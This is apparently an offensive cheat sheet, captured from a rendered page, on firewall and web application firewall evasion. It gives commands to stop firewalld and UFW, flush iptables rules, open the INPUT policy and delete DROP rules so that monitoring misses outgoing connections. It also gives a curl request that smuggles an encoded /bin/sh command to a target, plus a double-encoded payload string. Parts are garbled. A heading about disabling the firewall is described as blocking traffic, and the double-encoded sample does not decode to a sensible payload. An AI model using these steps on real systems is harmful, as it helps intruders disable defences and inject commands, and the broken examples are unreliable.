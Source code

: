 # Firewall Evasion Techniques

#### Disable Firewall (Temporary)
This can be used to block traffic selectively, making it harder for monitoring tools to detect outgoing connections.

- **Stops firewalld service (RHEL-based systems):**
	```bash
	sudo systemctl stop firewalld
	```
- **Stops UFW firewall (Debian-based systems):**
	```bash
	sudo systemctl stop ufw
	```
- **Flushes all IPv4 iptables rules:**
	```bash
	sudo iptables -F
	```
- **Flushes all IPv6 iptables rules:**
	```bash
	sudo ip6tables -F
	```
- **IPTables Rules Manipulation:**
	```bash
	sudo iptables -A OUTPUT -p tcp --dport <port> -j DROP
	```

#### Modify Firewall Rules
- **Sets default policy for INPUT to ACCEPT:**
	```bash
	sudo iptables -P INPUT ACCEPT
	```
- **Deletes a specific DROP rule in INPUT chain:**
	```bash
	sudo iptables -D INPUT -j DROP
	```
- **Deletes a specific DROP rule in IPv6 INPUT chain:**
	```bash
	sudo ip6tables -D INPUT -j DROP
	```

# Load Balancer and Web Application Firewall (WAF) Evasion

#### WAF Evasion
Use WAF bypass techniques like encoding payloads, modifying request headers, or splitting payloads.

- **URL Encoding:** Encode characters in a payload to evade detection.
	```bash
	curl 'http://<target_ip>?cmd=%2Fbin%2Fsh'
	```
- **Double Encoding:** Apply encoding multiple times to bypass WAF filters.
	```bash
	%25%32%46%25%32%45%25%31%31%25%32%45
	```

